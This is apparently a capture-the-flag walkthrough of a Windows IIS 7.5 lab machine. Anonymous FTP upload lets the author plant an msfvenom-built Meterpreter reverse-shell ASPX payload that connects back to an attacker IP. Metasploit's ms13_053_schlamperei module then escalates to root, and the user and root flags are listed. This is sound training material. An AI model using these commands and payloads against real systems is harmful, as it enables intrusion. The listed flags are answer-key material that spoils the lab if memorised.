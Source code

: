 
Let's start enumeration with nmap.

``` bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 07-18-23  11:27AM                 3474 reverse.aspx
| 07-18-23  11:19AM                   31 test.html
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Found two open ports 

	22 ftp(commonly used for file transfer)
	80 http(used for web) http allow us trace method will enumurate it further
	
First try to login as Anonymous user on FTP

After login successfully as Anonymous user we will now try to upload files on ftp server and we got success on it

<img alt="Pasted image 20230718025049" src="https://github.com/iammR0OT/HTB/assets/74102381/52dbb8da-3f50-4348-a0e7-49e38dc4ec09">

 Now we found that the port 80 is also open lets find out what is running on that port
 
	<img width="441" alt="Pasted image 20230718025202" src="https://github.com/iammR0OT/HTB/assets/74102381/d73f7428-49b9-47b0-975c-e1f21185cc35">

See some web files on ftp server 

Lets try to find out if that files are this web server files by try to access key.txt file we upload on the ftp server.

<img alt="Pasted image 20230718025340" src="https://github.com/iammR0OT/HTB/assets/74102381/c3729335-bba5-4bbe-bdb6-2c302da746af">

And we got success which means we can upload any file on ftp server access it through webserver

With response header we can identify that Miscrosoft IIS 7.5 is running as a server

<img alt="Pasted image 20230718025545" src="https://github.com/iammR0OT/HTB/assets/74102381/9430c8db-94d8-47ce-a6d2-adbe82088a4a">

Lets try to find out its exploit

After some research we find out that we can run any command on webserver through this vulnerability

Lets try to create reverse shell file using msfvenom and upload it on ftp server and run it through webserver

 `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.71 LPORT=6969 -f aspx -o shell.aspx`
 
Now, Lets upload it to the webserver and start mscvenom multihandler
to get shell back

For that run metasploit 
	`msfconsole`
Set generic payload handler
	`set exploit/multi/handler`
Set payload type
	`set payload windows/meterpreter/reverse_tcp`
Change the lport with you attacer machine port and lhost to your attacker machine ip
	`run`
After running` shell.aspx` on webserver we got a successful reverse shell on our meterpreter

<img  alt="Pasted image 20230718032142" src="https://github.com/iammR0OT/HTB/assets/74102381/041683d0-b954-483a-a2e9-ee521bca50ae">


Now we have to do privilege Esclation

For that we will first background our current session using `background` command
now we will use **post/multi/recon/local_exploit_suggester** 

It runs basic exploits to find out if the machine is vulnerable to the exploit

<img alt="Pasted image 20230718220206" src="https://github.com/iammR0OT/HTB/assets/74102381/0d6535d5-52d6-4ad8-9a9e-aca18cda3934">

And we find that machine is vulnerable to a lot of vulnerabilities

We will use **exploit/windows/local/ms13_053_schlamperei**

It will create a **dll injcetion** on processes 

After the exploit successfully run we will **migrate** our exploited process to the previous process to gain root shell

And we got our beautiful root shell on machine

<img alt="Pasted image 20230718220523" src="https://github.com/iammR0OT/HTB/assets/74102381/cb370024-4506-44dc-a263-333c62e30cfd">

```
User =>> 64934acc103a0b330096c3219f15a486
Root =>> dd6943fb4d4b90be0fbb0bfd3e603372
```
